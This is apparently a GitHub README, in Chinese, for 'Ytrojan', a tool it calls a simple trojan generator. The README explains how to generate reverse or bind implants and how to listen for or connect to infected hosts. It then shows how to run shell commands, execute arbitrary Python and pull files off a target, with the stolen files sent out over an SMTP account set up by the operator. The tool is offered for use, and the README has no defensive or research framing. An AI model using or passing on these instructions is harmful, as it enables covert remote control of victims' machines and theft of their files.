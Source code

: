 # Ytrojan

Ytrojan 一个简易的木马生成工具

## 选择语言/Select Your Language

Zh-cn   En-us 

## 如何使用Ytrojan

用Python 3.10或以上版本的解释器运行Main-Cmd.py

运行结果
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### 使用generate命令生成被控端  

```
generate [选项] [路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向被控端
   当选项的值为1时 生成的为正向被控端
2. [路径] 被控端生成位置
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为被控端

当弹出 parameters $> 意味这您需要提供您想要的被控端功能
目前仅支持 shell,getfile,pycmd

例如您想要被控端可以执行shell和py语句 您可以这样操作
parameters $>shell pycmd

```  

### 使用connect命令连接正向木马的被控端

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向木马被控端的连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"ip $>")  

```
1. shell [命令]         #执行shell
2. getfile [文件路径]    #获取文件
3. pycmd [语句]         #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. getfile a.txt    #获取a.txt
   getfile /a.jpg   #获取根目录下的a.jpg  

3. pycmd print('hello world')    #在目标上输出hello world
   pycmd import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和getfile命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

getfile使用smtp传输文件 您在使用时要先如下操作!!!  

```
$> pycmd host = "smtp服务器域名" #例如163的smtp.163.com
YES
$> pycmd port = "smtp服务所在端口" #一般是25端口
YES
$> pycmd username = "您的邮箱"
YES
$> pycmd password = "smtp运营商提供给您的密码" 
YES
$>....
```
